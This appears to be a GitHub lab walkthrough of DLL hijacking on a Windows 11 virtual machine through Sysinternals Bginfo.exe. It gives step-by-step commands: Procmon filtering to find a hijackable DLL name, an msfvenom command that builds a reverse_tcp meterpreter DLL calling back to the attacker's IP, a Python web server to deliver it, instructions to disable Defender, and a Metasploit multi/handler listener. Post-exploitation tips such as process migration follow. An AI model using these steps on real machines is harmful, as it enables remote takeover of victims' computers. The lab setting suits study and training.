









# 1. Find the Vulnerable `.dll` File
### In Windows 11 VM
Use [procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to find the vulnerable `.dll` file.

### Filter Settings
Create the following 3 conditions


### Search for vulnerable `.dll` file
Then execute [Bginfo.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/bginfo).



I tried one or several `.dll` files in the folder of `C:\User\user\Desktop\BGinfo` at the same time, but none of them worked. Eventually, I found on `.dll` file `rpcss.dll` had been searched by `Bginfo.exe` twice, so I tried it and it worked!


# 2.Kali VM
### Generate malicious `.dll` file
You can use `ip a` to find your IP address in case you haven't checked it yet.
```bash
msfvenom -p windows/meterpreter/reverse_tcp  -ax86 -f dll LHOST=<YOUR_IP_ADDR> LPORT=4444 > <VULNERABLE_DLL_FILE_NAME>.dll
```


### Host a server 8000
Then, the victim Windows 11 VM can download this malicious `.dll` file directly from your server.
```bash
python3 -m http.server 8000
```

# 3. Windows 11 VM
### Download the file
- Make sure you turn off the defender before, or the file will be removed.
- Put this `.dll` file into the folder shown in the `procmon`.



# 4. Kali
### Generate shell in Metasploit
```bash
sudo msfconsole
```



### Create the shell

```bash
use multi/handler
set LHOST <YOUR_IP_ADDR>
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
```

**NOTE:** You can use `show options` to check the information you typed previously.

### Start Listening
Finally, we can start listening to the malicious payload once the victim click on the executable, then it will be reversed back to the Kali VM.
```bash
exploit
```

# 5. Windows 11
I restart the Windows 11 VM before fire up the executable `Bginfo.exe`, but if you succeed right away, you can skip this step/



# 6. Kali
Then you will find you have the meterpreter shell now.


# Exploration
- Explore the victim's VM
- Migrate to another process in case the victim kills the original one.


### Check the Vulnerabilities



It might take longer time for Windows 11, Windows 10 or 7 would be recommended for testing prupose.




---

# Reference
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.